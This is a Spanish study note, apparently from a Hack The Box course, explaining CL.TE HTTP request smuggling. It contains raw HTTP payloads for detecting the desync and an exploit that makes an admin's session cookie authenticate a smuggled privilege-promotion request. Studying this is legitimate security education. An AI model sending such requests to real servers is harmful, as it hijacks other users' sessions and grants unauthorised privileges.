

---
tags:
  - Web/Red-Team
  - Pentesting/Explotacion
  - HTTP/Request-Smuggling
Fecha de actualización: 2026-07-14
Nota previa: "[[06 - Introducción a HTTP Request Smuggling]]"
Nota siguiente: "[[08 - TE.TE]]"
Area: "[[HTTP Attacks.base|HTTP Attacks]]"
---
---

La variante **CL.TE**: el <mark style="background: #ADCCFFA6;">**front-end** usa `Content-Length` y el **back-end** usa `Transfer-Encoding`</mark>. Ocurre cuando el proxy inverso **no soporta** chunked encoding, así que ante ambas cabeceras usa (mal) el `CL`, mientras el servidor usa (bien) el `TE`. Esa discrepancia deja un prefijo huérfano que contamina la petición del siguiente usuario.

# El mecanismo

```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```

- **Proxy (usa CL:10)**: el cuerpo son 10 bytes = `0\r\n\r\nHELLO`. Consume todo y lo reenvía. Para él, la petición está completa.
- **Servidor (usa TE)**: el cuerpo termina en el chunk vacío `0\r\n\r\n`. <mark style="background: #FFB8EBA6;">Los bytes `HELLO` **no** se consumen</mark> — para el servidor son el **principio de la siguiente petición**, y espera más datos.

Desync creada. Cuando llega la petición del siguiente usuario (`GET / HTTP/1.1...`), el servidor le **antepone** `HELLO` → `HELLOGET / HTTP/1.1` → método inválido → `405 Method Not Allowed`.



# Identificación

El método de HTB (dos peticiones): en Burp Repeater, manda el request CL.TE y **justo después** un `GET` normal. Si el segundo devuelve **405** (por el `HELLO` antepuesto), la desync existe.

> [!warning] Mejor: detección por timing (método de Kettle)
> El método de las dos peticiones <mark style="background: #FF5582A6;">afecta a usuarios reales</mark> (contaminas el socket). El estándar profesional es la **detección por timing**, que no daña a nadie: envías una petición donde el servidor (que usa TE), tras leer el primer chunk (`1`→`A`), se queda **esperando** el siguiente chunk que nunca llega (el front-end, por `CL`, no reenvía el resto) → **time-out** medible. Un retraso de varios segundos delata un back-end que usa TE mientras el front usa CL.
> ```http
> POST / HTTP/1.1
> Content-Length: 4
> Transfer-Encoding: chunked
>
> 1
> A
> X          ← el servidor (TE) espera más chunks → timeout
> ```
> Lo automatiza la extensión **HTTP Request Smuggler** de Burp (`Smuggle probe`), que usa esta técnica de forma segura.

# Explotación: ejecutar acciones con la sesión de la víctima

Queremos que el **admin** promocione nuestro usuario (id 2) vía `/admin.php?promote_uid=2`. Enviamos:

```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: 
```

Cuando el admin accede con `GET / ... Cookie: sess=<admin>`:

- **Proxy (CL:52)**: nuestra petición termina tras `Dummy: `. Ve nuestro `POST /` y el `GET /` del admin como dos peticiones normales.
- **Servidor (TE)**: nuestra petición termina en `0\r\n\r\n`. Lo que sigue lo lee como **una petición del admin**:
  ```http
  POST /admin.php?promote_uid=2 HTTP/1.1
  Dummy: GET / HTTP/1.1        ← la 1ª línea del admin cae como VALOR de Dummy
  Host: clte.htb
  Cookie: sess=<admin_session_cookie>   ← ¡la cookie del admin autentica NUESTRO POST!
  ```

<mark style="background: #FFB86CA6;">El `POST /admin.php?promote_uid=2` se ejecuta con la **cookie de sesión del admin**</mark>, sin que él lo sepa → nos promociona a admin. El truco del `Dummy:` es <mark style="background: #FFB8EBA6;">esconder la primera línea de la petición del admin (`GET / HTTP/1.1`) como **valor de una cabecera**</mark>, preservando la sintaxis del bloque de cabeceras (si no, sería una línea de request en medio de las cabeceras y rompería el parseo).

> [!important] Lo que hace esto tan grave
> El atacante ejecuta una acción **con los privilegios y la sesión de otro usuario**, que solo tuvo que hacer una petición benigna. Es la esencia del smuggling: <mark style="background: #8000E1A6;">inyectar en la petición de otro</mark>. Sirve igual para robar la petición de la víctima (capturar su cookie), envenenar la [[01 - Introducción a Web Cache Poisoning|caché]] o saltar un WAF colando una petición prohibida dentro de una permitida.

La siguiente variante ([[08 - TE.TE|TE.TE]]) ataca cuando **ambos** sistemas soportan TE, ofuscando la cabecera para que uno la ignore.

## Referencias

- [PortSwigger — CL.TE request smuggling](https://portswigger.net/web-security/request-smuggling#cl-te-vulnerabilities)
- [HTTP Request Smuggler (Burp extension)](https://github.com/PortSwigger/http-request-smuggler)
